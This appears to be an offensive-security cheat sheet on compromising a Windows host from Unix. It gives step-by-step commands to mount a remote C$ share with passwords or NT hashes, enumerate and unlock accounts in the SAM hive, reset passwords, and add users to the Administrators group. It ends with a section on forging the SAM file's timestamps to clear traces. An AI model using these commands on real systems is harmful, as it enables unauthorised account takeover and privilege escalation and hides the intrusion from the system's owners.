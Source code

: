 # Unix Shell

## 01 - Mount Remote SMB

TODO: Test it

Take note of the timestamps to clear traces ahead of time.

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ "allinfo /Windows/System32/config/SAM"

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ "allinfo /Windows/System32/config/SAM"
```

Create a temporary folder for mounting an SMB share.

```
# mkdir /mnt/share
```

Mount SMB share with various authentication methods.

```
# mount -t cifs -o [domain=<domain>,]username=<username>,password=<password>,rw //<IP>/C$ /mnt/share

# smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

# mount -t cifs -o [domain=<domain>,]username=<username>,password=<nt_hash>,sec=ntlmssp,rw //<IP>/C$ /mnt/share

# mount -t cifs -o sec=krb5,vers=3.0,rw '//<IP>/C$' /mnt/share
```

## 02 - Enumerate Users from SAM HIVE File

```
# chntpw -l /mnt/share/Windows/System32/config/SAM

# sampasswd -l /mnt/share/Windows/System32/config/SAM
```

Enumerate groups.

```
# samusrgrp -l /mnt/share/Windows/System32/config/SAM
```

Enumerate users with groups.

```
# samusrgrp -L /mnt/share/Windows/System32/config/SAM
```

Check any of the usernames are locked.

```
# samunlock -l /mnt/share/Windows/System32/config/SAM
```

## 03 - Unlock Users from SAM HIVE File

```
# samunlock -U -u <username> /mnt/share/Windows/System32/config/SAM
```

## 04 - Reset Password from SAM HIVE File

Interactive mode.

```
# chntpw -i /mnt/Windows/System32/config/SAM
chntpw version 1.00 140201, (c) Petter N Hagen
Hive </mnt/Windows/System32/config/SAM> name (from header): <\SystemRoot\System32\Config\SAM>
ROOT KEY at offset: 0x001020 * Subkey indexing type is: 686c <lh>
File size 65536 [10000] bytes, containing 7 pages (+ 1 headerpage)
Used for data: 318/31736 blocks/bytes, unused: 28/13096 blocks/bytes.



<>========<> chntpw Main Interactive Menu <>========<>

Loaded hives: </mnt/Windows/System32/config/SAM>

  1 - Edit user data and passwords
  2 - List groups
      - - -
  9 - Registry editor, now with full write support!
  q - Quit (you will be asked if there is something to save)


What to do? [1] -> 9
Simple registry editor. ? for help.

> ?
Simple registry editor:
hive [<n>]             - list loaded hives or switch to hive numer n
cd <key>               - change current key
ls | dir [<key>]       - show subkeys & values,
cat | type <value>     - show key value
dpi <value>            - show decoded DigitalProductId value
hex <value>            - hexdump of value data
ck [<keyname>]         - Show keys class data, if it has any
nk <keyname>           - add key
dk <keyname>           - delete key (must be empty)
ed <value>             - Edit value
nv <type#> <valuename> - Add value
dv <valuename>         - Delete value
delallv                - Delete all values in current key
rdel <keyname>         - Recursively delete key & subkeys
ek <filename> <prefix> <keyname>  - export key to <filename> (Windows .reg file format)
debug                  - enter buffer hexeditor
st [<hexaddr>]         - debug function: show struct info
q                      - quit

>
```

Specify local username to reset password.

```
# chntpw -u <username> /mnt/share/Windows/System32/config/SAM

Remove password from current username

Select: [q] > 1

Add username with administrator privileges.

Select: [q] > 3

Save changes

Select: [q] > q

Hives that have changed:
 #   Name
 0   <SAM>
Write hive files? (y/n) [n] : y
 0 <SAM> - OK
```

Even `sampasswd` will work as well.

```
# sampasswd -r -u <username> /mnt/share/Windows/System32/config/SAM
```

## 05 - Add Users in the group from SAM HIVE File

```
# samusrgrp -a -u <username> -g <group_ID> /mnt/share/Windows/System32/config/SAM
```

Append user in the users group.

```
# samusrgrp -a -u <username> -g 0x221 /mnt/share/Windows/System32/config/SAM
```

Append user in the administrators group.

```
# samusrgrp -a -u <username> -g 0x220 /mnt/share/Windows/System32/config/SAM
```

## 06 - Clear traces from SAM HIVE File

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ "utimes /Windows/System32/config/SAM [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss"

smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ "utimes /Windows/System32/config/SAM [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss"
```

---
## References

- [Chntpw Source Repository](https://salsa.debian.org/debian/chntpw)

- [Chntpw: Usage](https://www.kali.org/tools/chntpw/)